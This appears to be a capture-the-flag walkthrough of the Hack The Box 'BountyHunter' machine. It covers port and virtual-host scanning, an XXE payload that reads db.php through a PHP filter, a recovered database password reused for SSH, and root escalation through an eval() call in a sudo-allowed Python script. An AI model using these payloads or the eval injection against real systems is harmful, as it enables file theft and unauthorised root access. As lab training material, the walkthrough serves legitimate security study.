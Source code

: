 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp <IP>
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts <IP>
```

---

## 🕵️ [Web Enumeration](HTTP)
```bash
# Add to /etc/hosts
<IP> bountyhunter.htb

# Fuzz VHosts
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://bountyhunter.htb -H "Host: FUZZ.bountyhunter.htb" --fs 194
```

### Identified:
- **www.bountyhunter.htb** (Default Page)
- **tracker_diRbPr00f314.php** (Found via Burp/Form Submission)

---

## 📂 XML/XXE Exploitation
### Decode Burp Request:
1. URL-decode `data`
2. Base64-decode result
3. XML structure remains

### Exploit XXE to Read Files
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<bugreport>
  <title>test</title>
  <cwe>123</cwe>
  <cvss>5</cvss>
  <reward>&xxe;</reward>
</bugreport>
```

### Encode for Delivery:
- Base64 the above
- URL encode the Base64

### Submit via Burp:
```http
POST /tracker_diRbPr00f314.php
...
data=<encoded payload>
```

### Result:
```bash
# Decode base64 response to read db.php
cat result.b64 | base64 -d
```

### Extracted Password:
```bash
# dbpassword: m19RoAU0hP41A1sTsq6K
```

---

## 🔐 [Shell as Development](SSH)
```bash
ssh development@<IP>
# password: m19RoAU0hP41A1sTsq6K
```
```bash
cat ~/user.txt
```

---

## 🖕 Root Escalation
### Check sudo perms:
```bash
sudo -l
```
```bash
# Result:
(root) NOPASSWD: /opt/ticketValidator/ticketValidator.py
```

### Inspect Script:
```python
# dangerous line
validationNumber = eval(x.replace("**", ""))
```

### Bypass Ticket Format:
```bash
# Example ticket:
cat << EOF > /tmp/ticket
== Ticket ==
TicketCode: 18
**101+1
EOF
```

### Run Validator with Ticket:
```bash
sudo /opt/ticketValidator/ticketValidator.py /tmp/ticket
```

### Get Root Flag:
```bash
cat /root/root.txt
```

---

## 📚 Summary
- Web endpoint: `/tracker_diRbPr00f314.php`
- Encodings: URL, Base64
- Data format: XML
- Attack: XXE
- XXE Bypass with: PHP filters (`php://filter/...`)
- Priv Esc: Insecure use of `eval()` in sudo Python script

---

## 📚 Resources
- [SecJuice BountyHunter Walkthrough](https://www.secjuice.com/htb-bountyhunter-walkthrough/)
- [PayloadAllTheThings: XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

